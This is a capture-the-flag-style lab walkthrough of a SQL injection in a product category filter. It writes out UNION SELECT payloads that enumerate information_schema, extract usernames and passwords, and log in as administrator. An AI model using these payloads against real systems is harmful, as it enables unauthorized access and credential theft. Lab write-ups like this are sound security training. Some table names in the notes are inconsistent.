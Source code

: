
![](../../attachments/Pasted%20image%2020240528154701.png)

From the lab description This lab contains SQL injection Vulnerability in Product category filter 
to solve this lab we need to login as administrator 
this lab contains non oracle databases

refer to [SQL CHEAT SHEET](../SQL%20CHEAT%20SHEET.md) for payloads
Let's access the lab 
like as usual we've intercepted the request and sent it to repeater now let's check number of columns and determine the data type of those columns to perform a union attack 

![](../../attachments/Pasted%20image%2020240528155320.png)

we got internal server error of we dfo order by 3 so number of columns is 2 now let's determine the datatype of those columns The payload is 
`'+UNION+SELECT+'abc','def'-- `
![](../../attachments/Pasted%20image%2020240528155700.png)

so we now know that both columns are of same data type let's now retrieve the username and password for the file 

![](../../attachments/Pasted%20image%2020240528155829.png)


payload to retrieve information about list of tables in database

`+UNION+SELECT+table_name,+NULL+FROM+information_schema.tables--`

We got some list of tables let's check them
![](../../attachments/Pasted%20image%2020240528160753.png)


![](../../attachments/Pasted%20image%2020240528161215.png)

the above is the user table 



to retrieve the usernames the payload will be 
'+UNION+SELECT+column_name,+NULL+FROM+information_schema.columns+WHERE+table_name='users_avyrcv'--

![](../../attachments/Pasted%20image%2020240528161452.png)

we got a username table and a match with word starting with pass that might be the password table 


username_umpehj


The payload to view password table will be 

'+UNION+SELECT+column_name,+NULL+FROM+information_schema.columns+WHERE+table_name='password_ohgyxof'--



we got our password table too
let's retrieve the details form both tables 

The paylaod will be 


username table : users_avyrcv
password table : password_ohgyxo
username: username_umpehj

'+UNION+SELECT+username_umpehj,+ password_ohgyxo+FROM+users_avyrcv--

'+UNION+SELECT+column_name,+NULL+FROM+information_schema.columns+WHERE+table_name='users_avyrcv'--

![](../../attachments/Pasted%20image%2020240528164107.png)

let's find administrator details and login 

![](../../attachments/Pasted%20image%2020240528164241.png)

now let's login

![](../../attachments/Pasted%20image%2020240528164353.png)


